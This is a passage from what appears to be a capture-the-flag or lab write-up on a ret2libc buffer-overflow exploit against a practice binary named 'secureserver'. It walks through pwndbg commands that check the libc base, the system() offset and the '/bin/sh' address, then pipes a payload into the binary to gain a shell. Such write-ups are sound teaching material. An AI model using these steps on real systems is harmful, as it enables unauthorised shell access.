 Set a breakpoint for main with `b main`.

Run the binary with `r`.

Great, <mark style="color:yellow;">we can now start examining our addresses and what data is located within them</mark>.

Examing `libc` base address:

```
pwndbg> x 0xf7d81000
0xf7d81000:     0x464c457f
```

<mark style="color:green;">**In English**</mark>: `x` is examine, and the address is our `libc` base address.

Examine `system()` minus the offset of `system()`:

```
pwndbg> x/s 0xf7dc9150 - 0x48150
0xf7d81000:     "\177ELF\001\001\001\003"
```

<mark style="color:green;">**In English**</mark>: `x` is examine, `/s` is convert to string, and the offset is that of `system()`.

If you see <mark style="color:yellow;">`ELF`</mark>, this means we are simply at the <mark style="color:yellow;">base of the binary</mark> and that everything is aligning properly.

<mark style="color:yellow;">Now this part is interesting</mark>, remember when I said above in the stack diagram that was illustrating the overflow?

So in Step 3, <mark style="color:yellow;">the address is a pointer</mark>, <mark style="color:yellow;">which means if we print out the data in hex</mark>, <mark style="color:yellow;">we will get a string back</mark>. So there is no need to examine/convert to a string!

```
pwndbg> x 0xf7f3e0f5
0xf7f3e0f5:     "/bin/sh"
```

<mark style="color:green;">In English</mark>: `x` is examine, and the address is our `"/bin/sh"`.

### Manual Exploitation w/ our Payload

We can actually use cat with our payload as the argument and pipe it to our binary to exploit it as well and gain a shell:

```
cat payload - | ./secureserver
```

<figure><img src="../../.gitbook/assets/image (111).png" alt=""><figcaption></figcaption></figure>
